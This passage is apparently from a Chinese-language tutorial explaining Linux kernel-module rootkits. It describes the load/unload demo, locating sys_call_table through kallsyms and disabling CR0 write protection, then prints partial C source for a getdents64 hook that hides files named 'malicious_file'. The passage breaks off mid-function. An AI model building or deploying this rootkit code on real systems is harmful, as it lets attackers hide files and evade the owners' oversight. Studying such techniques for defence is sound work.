 - 关闭内存写保护

- 将它自己的恶意函数地址从表中移除，恢复原始的系统调用地址

- 重新打开内存写保护

make 后运行流程：

- 加载内核模块: insmod lkmdemo.ko
- 运行 ls, 会看到 malicious_file 从输出中隐藏了
- 运行 lsmod, 在输出中看到 lkmdem
- 卸载模块: rmmod lkmdemo

现代 Linux 内核中（2.6 版本以后）：sys_call_table 不再被“导出” (Exported)：LKM 不能再像 printk 那样直接按名字使用它。Rootkit 必须通过扫描内核内存（比如 kallsyms）来“猜”它的位置。

写保护 (Write Protection)：sys_call_table 所在的内存页通常被标记为只读。

现代 LKM rootkit 在执行实施篡改之前，还必须先绕过这个写保护。它们通常通过修改 CPU 的一个特定控制寄存器（`CR0`）来暂时关闭内核内存的写保护，修改完后再迅速打开。

```c
#include <linux/sched.h>
#include <linux/module.h>
#include <linux/syscalls.h>
#include <linux/dirent.h>
#include <linux/slab.h>
#include <linux/version.h> 
#include <linux/proc_ns.h>
#include <linux/fdtable.h>
#ifndef __NR_getdents
#define __NR_getdents 141
#endif
#define MAGIC_PREFIX "malicious_file"
#define MODULE_NAME "lkmdemo"

struct linux_dirent {
        unsigned long   d_ino;
        unsigned long   d_off;
        unsigned short  d_reclen;
        char            d_name[1];
};

unsigned long cr0;
static unsigned long *__sys_call_table;
typedef asmlinkage long (*t_syscall)(const struct pt_regs *);
static t_syscall orig_getdents;
static t_syscall orig_getdents64;

// 在内核的所有符号（函数和变量）中按名称搜索并返回其内存地址
unsigned long * get_syscall_table_bf(void)
{
  unsigned long *syscall_table;
  syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
  return syscall_table;
}

// 过滤目录内容
static asmlinkage long hacked_getdents64(const struct pt_regs *pt_regs) {
  struct linux_dirent * dirent = (struct linux_dirent *) pt_regs->si;
  // 调用原始函数
  int ret = orig_getdents64(pt_regs), err;
  unsigned long off = 0;
  struct linux_dirent64 *dir, *kdirent, *prev = NULL;
  if (ret <= 0)
    return ret;
  // 复制到内核空间
  kdirent = kzalloc(ret, GFP_KERNEL);
```
